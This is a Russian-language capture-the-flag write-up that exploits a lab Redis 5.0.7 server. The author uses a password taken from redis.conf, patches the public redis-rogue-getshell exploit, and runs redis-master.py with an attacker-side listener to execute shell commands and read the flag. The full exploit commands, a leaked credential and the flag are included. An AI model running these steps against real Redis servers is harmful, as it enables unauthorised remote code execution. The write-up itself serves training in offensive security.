 # Принтер 2

В полученном [redis.conf](redis.conf) находим пароль: `NTO_r3d15_p455w0rd`

Подключаемся с ним к этому хосту (где и ftp)

```
> redis-cli -h 10.10.1.110
10.10.1.110:6379> auth NTO_r3d15_p455w0rd
OK
10.10.1.110:6379> info server
# Server
redis_version:5.0.7
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:66bd629f924ac924
redis_mode:standalone
os:Linux 6.8.0-55-generic x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:9.3.0
process_id:9
run_id:9343920494e6d8857b2cde72fb4ea1d6d9e80827
tcp_port:6379
uptime_in_seconds:207163
uptime_in_days:2
hz:10
configured_hz:10
lru_clock:15042160
executable:/usr/bin/redis-server
config_file:/etc/redis/redis.conf
```

Видим старую версию redis, для которой находится уязвимость и [эксплойт к ней](https://github.com/vulhub/redis-rogue-getshell)

Изначально, он не компилируется. Чинится гуглом ошибки. Вот изменения
```
diff --git a/RedisModulesSDK/exp/exp.c b/RedisModulesSDK/exp/exp.c
index cfeb95e..dc9bffc 100644
--- a/RedisModulesSDK/exp/exp.c
+++ b/RedisModulesSDK/exp/exp.c
@@ -1,13 +1,16 @@
 #include "redismodule.h"
 

+#include <arpa/inet.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <errno.h>
#include <sys/wait.h>
#include <sys/types.h> 
#include <sys/socket.h>
#include <netinet/in.h>
+#include <string.h>

 
 int DoCommand(RedisModuleCtx *ctx, RedisModuleString **argv, int argc) {
        if (argc == 2) {
```

Собираем модуль, запускаем сплойт, смотрим на домашнюю папку рута, читаем флаг:
```bash
python3 redis-master.py -r 10.10.1.110 -p 6379 -L 10.5.5.164 -P 41109 -c 'ls ~' -a NTO_r3d15_p455w0rd -f RedisModulesSDK/exp.so
python3 redis-master.py -r 10.10.1.110 -p 6379 -L 10.5.5.164 -P 41109 -c 'cat ~/reallylongfilename4NTOflag' -a NTO_r3d15_p455w0rd -f RedisModulesSDK/exp.so
```

**Флаг:** `nto{d0n7_0v3r3xp0s3_ur_r3d15}`